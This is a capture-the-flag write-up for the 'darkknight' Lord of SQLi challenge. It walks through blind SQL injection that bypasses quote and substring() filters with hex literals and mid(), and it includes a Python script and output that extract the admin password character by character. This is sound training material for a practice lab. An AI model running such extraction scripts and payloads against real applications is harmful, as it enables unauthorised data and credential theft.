 ![5](https://github.com/Kunull/Write-ups/assets/110326359/236fb07a-0b63-4164-9967-121d3e33df41)---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 12
---

![1](https://github.com/Kunull/Write-ups/assets/110326359/6cde625d-39f4-4536-bdd2-e4bacc1b7d44)

We are provided with the SQL query:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='{$_GET[pw]}' AND no={$_GET[no]}
```

The code performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the message `Hello {$result[id]}`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


In order to print out the flag, we need to first know the password. We have to perform a Blind SQL Injection.

This challenge also filters out the quotes character. 

We have to use Hexadecimal representations instead of strings. Alternatively, we can use the double-quote (`"`) character to bypass the filter.

## Blind SQL Injection

### Retrieving the password length

If we provide the following URI:

```
?no=0 OR id LIKE 0x61646d696e AND length(pw) LIKE 1
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='' AND no=0 OR id LIKE 0x61646d696e AND length(pw) LIKE 1
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/70be2f68-c530-4dcc-a541-a9b8938765df)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.

That tells us that the length of the `pw` column is more than 1.

If we keep increasing the length and provide the following URI:

```
?no=0 OR id LIKE 0x61646d696e AND length(pw) LIKE 8
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='' AND no=0 OR id LIKE 0x61646d696e AND length(pw) LIKE 8
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/a1ed7953-f711-4a32-9573-2eeb70fb0e4b)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.

That tells us that the length of the `pw` column is 8.

### Leaking the password

This challenge also filters the `substring()` function.

Therefore, in order to leak the password, we will have to use the `mid()` function.
#### `mid()`

![3](https://github.com/Kunull/Write-ups/assets/110326359/2a05edee-9e1c-43b3-8970-4ea391376a28)

If we provide the following URI:

```
?no=0 OR id LIKE 0x61646d696e AND mid(pw, 1, 1) LIKE 0x30
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='' AND no=0 OR id LIKE 0x61646d696e AND mid(pw, 1, 1) LIKE 0x30
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/89f8306f-902d-4bdc-bd15-4357ce6586b3)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.

That tells us that the first character of the `pw` for `id=admin` is `0x30` which is `0`.

We can move onto the second character:

```
?no=0 OR id LIKE 0x61646d696e AND mid(pw, 2, 1) LIKE 0x30
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='' AND no=0 OR id LIKE 0x61646d696e AND mid(pw, 2, 1) LIKE 0x30
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/227d4a99-7fca-41ba-a579-55a57325abea)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.

That tells us that the first character of the `pw` for `id=admin` is not `0x30` which is `0`.

We can keep repeating this process until we get all the eight characters of the admin password:

```
0b70ea1f
```

### Script

We can automate the entire process using a script.

```python title="darkknight_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'd6k46orbbik0hppkki48hqdg9k'}
url = 'https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php'
password_length = 0

for x in range(0, 10):
  payload = f'0 OR id LIKE "admin" AND length(pw) LIKE {x}'
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?no={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    password_length = x
    break

print()    
print(f'[!] Payload: ?no={payload}')
print(f'[!] Payload (URL encoded): ?no={encoded_payload}')
print(f'[!] Password length: {password_length}')

password = ''
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f'0 OR id LIKE "admin" AND mid(pw, {index}, 1) LIKE "{char}"'
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f'{url}?no={encoded_payload}'

    response = requests.get(full_url, cookies=cookies)

    if 'Hello admin' in response.text:
      password += char
      print()
      print(f'[+] Payload: ?no={payload}')
      print(f'[+] Payload (URL encoded): ?no={encoded_payload}')
      print(f'[+] Character at index {index}: {char}')
      break

print()
print(f'[!] Extracted password: {password}')
print(f'[!] Final payload: ?pw={password}')
```

```
python .\losqli.py

[!] Payload: ?no=0 OR id LIKE "admin" AND length(pw) LIKE 8
[!] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+length%28pw%29+LIKE+8
[!] Password length: 8

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 1, 1) LIKE "0"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+1%2C+1%29+LIKE+%220%22
[+] Character at index 1: 0

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 2, 1) LIKE "b"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+2%2C+1%29+LIKE+%22b%22
[+] Character at index 2: b

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 3, 1) LIKE "7"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+3%2C+1%29+LIKE+%227%22
[+] Character at index 3: 7

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 4, 1) LIKE "0"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+4%2C+1%29+LIKE+%220%22
[+] Character at index 4: 0

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 5, 1) LIKE "e"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+5%2C+1%29+LIKE+%22e%22
[+] Character at index 5: e

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 6, 1) LIKE "a"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+6%2C+1%29+LIKE+%22a%22
[+] Character at index 6: a

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 7, 1) LIKE "1"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+7%2C+1%29+LIKE+%221%22
[+] Character at index 7: 1

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 8, 1) LIKE "f"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+8%2C+1%29+LIKE+%22f%22
[+] Character at index 8: f

[!] Extracted password: 0b70ea1f
[!] Final payload: ?pw=0b70ea1f
```

Now, we can provide password URI:

```
?pw=0b70ea1f
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='0b70ea1f' AND no=
```

![7](https://github.com/Kunull/Write-ups/assets/110326359/57213d19-deff-48b5-9681-d2cc8de28edf)
